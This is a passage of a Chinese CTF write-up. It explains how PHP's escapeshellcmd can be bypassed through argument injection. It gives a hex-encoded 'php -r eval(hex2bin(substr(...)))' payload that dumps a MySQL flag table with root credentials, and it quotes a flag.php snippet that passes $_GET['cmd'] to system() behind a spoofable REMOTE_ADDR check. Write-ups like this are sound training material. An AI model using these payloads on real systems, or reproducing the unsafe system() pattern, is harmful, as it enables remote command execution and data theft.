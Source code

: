 **escapeshellcmd** — shell 元字符转义

功能：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义，反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。 ‘ 和 “ 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。

但是我们通过查看PHP手册，可以看到escapeshellcmd并没有对`-`做转义，所以我们还是可以把参数传到命令中。

然后网上查找一下关于`escapeshellcmd`的文章

[从escapeshellcmd讲参数注入](https://blog.kuron3k0.vip/2020/08/12/argument-injection/)

[谈escapeshellarg绕过与参数注入漏洞](https://www.leavesongs.com/PENETRATION/escapeshellarg-and-parameter-injection.html)(p神yyds)

经过测试发现可以使用PHP的命令行，然后又因为要绕过那么多的限制，将命令转化为16进制达到一个绕过的效果。

但是测试中直接使用`hex2bin`函数无法执行，我们再嵌套一层函数`substr`,接下来就是执行中的命令就是和文章中师傅提到的一样，测试密码都一样的。

```Bash
#echo `mysql -u root -p'root' -e 'show database;'`;
#echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;'`;
#echo `mysql -u root -p'root' -e 'use PHP_CMS;show tables;select * from F1ag_Se3Re7;'`;
```

![img](https://cdn.jsdelivr.net/gh/Aar0n3906/blog-img/1716133694110-44.png)

![img](1716133694110-45.png)

![img](https://cdn.jsdelivr.net/gh/Aar0n3906/blog-img/1716133694110-46.png)

```Bash
 cmd=php -r eval(hex2bin(substr(_6563686f20606d7973716c202d7520726f6f74202d7027726f6f7427202d652027757365205048505f434d533b73686f77207461626c65733b73656c656374202a2066726f6d20463161675f5365335265373b27603b,1)));
```

### 2.easycms_revenge

题目而且给我们说是研发修好了，感觉和这篇文章的师傅有点像啊

[某cms 前台RCE漏洞分析](https://xz.aliyun.com/t/10002?time__1311=mq%2BxBD97qYqCqAKDsD7me5xrYWKq%2BfrD&alichlgref=https%3A%2F%2Fwww.google.com%2F)（还有几篇类似的就不一一放出来了）

get 的 s 参数可以控制访问的控制器在哪个目录，以至于我们可以直接通过 `index.php?s=api&c=xxx` 进入 api 文件夹调用任意控制器。当然这个师傅的这个原来的地方被修复了，我们只能查找其他地方。

发现两个位置可以实现利用

![img](https://cdn.jsdelivr.net/gh/Aar0n3906/blog-img/1716133694110-47.png)

![img](https://cdn.jsdelivr.net/gh/Aar0n3906/blog-img/1716133694110-48.png)

咱们可以通过这两段代码不难发现是有可调用的地方的。

又根据前一天 easycms 的提示可得，需要先在 http 头使用 Location 绕过 Remote_addr 的限制才能使用命令执行

```Bash
# /flag.php
if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
   echo "Just input 'cmd' From 127.0.0.1";
   return;
}else{
   system($_GET['cmd']);
}
```
